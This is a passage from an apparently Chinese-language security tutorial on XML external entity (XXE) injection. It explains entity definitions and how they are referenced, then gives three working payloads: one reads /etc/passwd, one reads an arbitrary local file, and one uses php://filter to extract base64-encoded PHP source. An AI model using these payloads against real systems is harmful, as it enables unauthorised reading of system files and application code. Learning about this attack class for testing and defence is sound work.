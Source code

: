 -   内部实体定义：<!ENTITY author "John Doe">定义了一个名为 author 的内部实体，其值为"John Doe"
-   外部实体定义：<!ENTITY company SYSTEM "company.txt"> 定义了一个名为 company 的外部实体，它从位于"company.txt"文件中的内容中获取值

在 XML 文档的内容中，我们使用了这些实体：

-   <author>&author;</author>：使用&author; 引用了内部实体 author，将其替换为"John Doe"
-   <publisher>&company;</publisher>：使用&company;引用了外部实体 company，将其替换为"company.txt"文件中的内容

### 实体引用方法

实体由三部分构成：&符号、实体名称、分号 (;)，这里&不论在 GET 还是在 POST 中都需要进行 URL 编码，因为是使用参数传入 XML 的，&符号会被认为是参数间的连接符号，示例：

```plain
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY xxe "Thinking">]>

<foo>&xxe;</foo>
```

## 实体注入

XML 实体关键字'SYSTEM'会令 XML 解析器从 URI 中读取内容并允许它在 XML 文档中被替换，因此攻击者可以通过实体将他自定义的值发送给应用程序，然后让应用程序去呈现，简单来说就是攻击者强制 XML 解析器去访问攻击者指定的资源内容 (可能是系统上本地文件亦或是远程系统上的文件)，比如下面的代码将获取系统上 folder/file 的内容并呈献给用户  
Code1:

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd SYSTEM "file:///etc/passwd">]>

<foo>
     <value>&passwd;</value>
</foo>
```

Code2:

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE b [<!ENTITY entityex SYSTEM "file:///folder/file">]>

<foo>
     <value>&entityex;</value>
</foo>
```

Code3:

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php" >
]>

<root>
    <name>&xxe;</name>
</root>
```
